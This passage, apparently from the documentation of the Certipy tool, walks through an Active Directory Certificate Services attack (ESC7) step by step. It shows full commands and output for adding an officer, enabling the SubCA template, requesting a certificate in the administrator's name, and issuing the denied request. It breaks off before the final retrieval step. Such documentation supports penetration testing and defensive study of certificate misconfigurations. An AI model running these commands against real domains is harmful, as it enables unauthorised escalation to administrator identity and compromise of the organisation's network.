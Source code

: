 The technique relies on the fact that users with the `Manage CA` *and* `Manage Certificates` access right can issue failed certificate requests. The `SubCA` certificate template is vulnerable to ESC1, but only administrators can enroll in the template. Thus, a user can request to enroll in the `SubCA` - which will be denied - but then issued by the manager afterwards.

If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.

```bash
$ certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'John' on 'corp-DC-CA'
```

The `SubCA` template can be enabled on the CA with the `-enable-template` parameter. By default, the `SubCA` template is enabled.

```bash
$ certipy ca -ca 'corp-DC-CA' -enable-template SubCA -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'corp-DC-CA'
```

**Attack**

If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the `SubCA` template.

This request will be denied, but we will save the private key and note down the request ID.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -template SubCA -upn administrator@corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 785
Would you like to save the private key? (y/N) y
[*] Saved private key to 785.key
[-] Failed to request certificate
```

With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```bash
$ certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.
